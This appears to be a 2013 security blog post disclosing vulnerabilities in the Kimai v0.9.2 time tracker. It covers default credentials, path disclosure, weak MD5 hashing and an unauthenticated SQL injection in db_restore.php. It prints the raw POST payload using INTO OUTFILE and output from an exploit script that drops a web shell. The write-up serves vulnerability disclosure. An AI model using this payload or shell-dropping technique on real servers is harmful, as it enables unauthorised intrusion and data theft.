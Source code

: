 ```yaml
---
categories:
- kimai
- sqli
comments: false
date: "2013-05-20T23:01:44Z"
title: Kimai v0.9.2 - SQLi
---
```


Kimai is a time tracking solution built on the typical LAMP stack.  Multiple vulnerabilities were discovered that could allow remote code execution on the remote server.  These appear to be fixed in their source repository ([here](https://github.com/kimai/kimai)), but none of the distribution packages ([v0.9.2.1306-3](https://downloads.sourceforge.net/project/kimai/0.9.x/kimai.0.9.2.1306-3.zip)) have the patched version.

On installation, a default administrative account is generated with the following credentials: admin:changeme.  The /install/ folder is not automatically deleted, but instead a pop-up is shown each time the administrator logs in, alerting them that they should delete this folder in order to protect their system from malicious modifications.  If this folder is not deleted, it could allow unauthenticated users the ability to wipe the remote system's install of Kimai.

There are multiple directory indexes (`/kimai/libraries/`) that disclose paths, version information, and files, as well as path disclosure (`/kimai/error.php?err=db`):

{{< figure class="center" src="http://1.bp.blogspot.com/-FQ9oSQqSVEs/UZp1oyYlMkI/AAAAAAAAAeY/c8JuSaxjRW0/s640/kimai_path.jpg" >}}

The file `/kimai/db_restore.php` is an experimental page that can be used to restore, delete, and create backups of the Kimai system.  This page can be accessed without authentication or authorization, and no audit log is generated.  This page is vulnerable to SQLi when restoring a generated backup.

Once a backup is created, the recovery POST appears as such:

```
POST /kimai/db_restore.php HTTP/1.1
Host: 192.168.1.219
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:20.0) Gecko/20100101 Firefox/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.219/kimai/db_restore.php
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

dates%5B%5D=1369028276&submit=recover
```

The initial request is pulled in from the following:

```
if (isset($_REQUEST['submit'])) 
{
    if (($_REQUEST['submit'] == $kga['lang']['backup'][2]) && (isset($_REQUEST['dates']))) 
    {
        $dates = $_REQUEST['dates'];
```

The tables are then queried, and the following code is executed:

```
      // Bis rev 733 gab es in tabelle ldr keinen Primary Key ...
            $query = "SELECT value FROM kimai_bak_" . $dates[0] . "_kimai_var WHERE var = 'revision' LIMIT 0,1;";
       
            if ($kga['server_conn'] == "pdo") {
                    if (is_object($pdo_conn)) {
                        $pdo_query = $pdo_conn->prepare($query);
                        $success = $pdo_query->execute(array());
                    $revision = $pdo_query->fetch(PDO::FETCH_ASSOC);
                    }
            } else {
                if (is_object($conn)) {
                    $success = $conn->Query($query);
                $revision = $conn->RowArray(0,MYSQL_ASSOC);
                }
            }
```

The `dates` parameter is used within the query without sanitization, leading to a classic SQL injection vulnerability.  This is quite serious as the page is accessible without needing to be authenticated or authorized to the Kimai system.

We can exploit this by generating a new backup, and running a typical SQLi, where the POST data appears as such:

```
dates%5B%5D=1369028276_kimai_var%20UNION%20SELECT%20INTO%20OUTFILE%20'hacked';--%20&submit=recover
```

This will dump all output from the query into the file 'hacked' on the remote server.  Using this, we can dump one column from any table in the database. 

Passwords are stored using the following:

```
$passCrypt = md5($kga['password_salt'].$password.$kga['password_salt']);
```

This is quite weak, as the salt is static for each user and can be pulled from the include/autoconf.php file.

Session's do not enforce any form of source verification, and thusly can be hijacked. 

Here's a run from the script:

```
root@kali:~# python kimai_sqli.py -i 192.168.1.83 -w
[!] Using backup id 1369074792
[!] Shell dropped.  Go hit http://192.168.1.83/kimai/41e93.php?rr=ls
root@kali:~# 
```

{{< figure class="src" src="http://3.bp.blogspot.com/-N4SxE1sJCMI/UZpyu-ABNWI/AAAAAAAAAeM/mJREYhveVCs/s640/kimai_run.jpg" >}}

[Exploit](http://www.exploit-db.com/exploits/25606/)

